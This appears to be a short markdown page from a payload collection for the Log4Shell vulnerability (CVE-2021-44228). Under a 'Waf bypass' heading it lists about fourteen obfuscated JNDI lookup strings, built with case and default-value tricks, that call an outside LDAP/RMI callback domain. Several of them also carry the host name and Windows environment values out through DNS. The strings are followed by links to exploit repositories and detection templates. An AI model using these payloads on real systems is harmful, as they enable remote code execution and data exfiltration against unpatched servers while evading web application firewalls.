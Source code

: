 ## CVE-2021-44228

### Waf bypass
```

${jndi:ldap://127.0.0.1:1389/ badClassName} 
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 
${${::-j}ndi:rmi://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 
${jndi:rmi://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk}
${${lower:jndi}:${lower:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 
${${lower:${lower:jndi}}:${lower:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}
${${upper:jndi}:${upper:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 
${${upper:j}${upper:n}${lower:d}i:${upper:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}
${${upper:j}${upper:n}${upper:d}${upper:i}:${lower:r}m${lower:i}}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://${hostName}.nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk}
${${upper::-j}${upper::-n}${::-d}${upper::-i}:${upper::-l}${upper::-d}${upper::-a}${upper::-p}://${hostName}.nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://${hostName}.${env:COMPUTERNAME}.${env:USERDOMAIN}.${env}.nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk}
```


### Ref
- https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2021/CVE-2021-44228.yaml
- https://gist.github.com/ZephrFish/32249cae56693c1e5484888267d07d39
- https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce
- https://github.com/jas502n/Log4j2-CVE-2021-44228
- http://slf4j.org/log4shell.html
- https://github.com/cldrn/codeql-queries/blob/master/log4j-injection.ql
